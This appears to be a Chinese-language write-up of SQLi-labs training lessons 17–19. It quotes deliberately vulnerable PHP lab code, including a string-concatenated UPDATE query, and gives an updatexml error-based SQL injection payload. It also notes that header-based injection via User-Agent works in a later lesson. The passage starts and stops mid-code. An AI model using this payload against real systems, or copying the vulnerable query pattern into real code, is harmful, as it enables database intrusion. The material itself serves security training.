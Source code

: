 ~~~php
		}
		else
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			//echo " You password has been successfully updated " ;		
			echo "<br>";
			echo "</font>";
		}
	
		echo '<img src="../images/flag1.jpg"   />';	
		//echo 'Your Password:' .$row['password'];
  		echo "</font>";
	


  	}
	else  
	{
		echo '<font size="4.5" color="#FFFF00">';
		//echo "Bug off you Silly Dumb hacker";
		echo "</br>";
		echo '<img src="../images/slap1.jpg"   />';
	
		echo "</font>";  
	}
~~~

可以看到在password处存在注入，因为uername检查严格，所以不可以使用了。

```undefined
1' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)#
```

审计后发现存在报错注入，所以

$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";



## less18

这个跟19其实是一样的，不过是注入的地方在http头部的 user-agent

## Less19

~~~php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
	
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,20);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
~~~